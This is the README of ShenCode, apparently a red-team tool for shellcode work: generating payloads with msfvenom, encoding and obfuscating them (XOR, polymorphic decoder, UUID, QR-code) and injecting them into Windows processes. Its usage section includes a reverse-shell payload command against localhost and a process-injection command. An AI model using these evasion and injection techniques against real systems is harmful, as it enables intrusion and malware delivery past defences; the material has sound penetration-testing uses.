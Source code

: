 # ShenCode

A multi purpose tool for shellcode operations


![](shencode-050.png)

## Features

### Version 0.5.0

- general
	- `extract` - extract from/to offset
	- `formatout` - display raw shellcodes in `C++, C#` and more
	- `inject` - inject shellcode into process (Windows only)
	- `msfvenom` - create payloads  with msfvenom
- encoder
	- `xorenc` - Encode payload with custom XOR key
	- `xorpoly` - polymorphic x64 in-memory decoder (for details, visit this [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_polymorphic_in_memory_decoder))
- obfuscator
	- `QR-Code` hide OpCodes as QR-Code image
	- `ROR13` to `ROL` with custom key (Windows only)
	- `UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder

- ~~create~~
	- ~~create shellcodes with msfvenom~~
	- ~~create in-memory XOR Decoder (for technical details, visit this [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_polymorphic_in_memory_decoder))~~
- ~~encode~~
	- ~~`ROR13` to `ROL` with custom key (only Windows)~~
	- ~~`QR-Code`: hide OpCodes as QR-Code image~~
	- ~~`XOR` encryption~~
	- ~~`UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder~~
- ~~extract~~
	- ~~extract shellcode from position `x` to `y`~~
- ~~inject~~
	- ~~inject shellcode into a remote process (only Windows)~~
- ~~output~~
	- ~~raw shellcode to file~~
	- ~~formatting options: `C++, C#, C-ASM, PS, PY, HEX`~~
	- ~~new `inspect` option helps to find offsets~~
	- ~~output in console windows~~
	- ~~output in template~~

## Release Notes

#### Improvements

- `core` - each feature is now a module
- `core` - dynamic argument parsing
- `module` - nstate class is available for all modules
- `formatout` - colored line numbers

## ToDo

- ~~class.nstate global class~~
- Update README
- Update Wiki
- Code cleanup:
	- ~~del assist.py~~
	- ~~del shellcode.py~~
	- ~~del obfuscating.py~~
	- ~~del stub.py~~
- Update requirements.txt
- ~~Migrate: `extract, bin2sc, inject, msf, ror2rol, xorpoly, uuid, qrcode, xor`~~
- ~~Dynamic argparser~~

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **QR-Code**      | `encode --filename shell.raw --outputfile shell.enc --qrcode`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
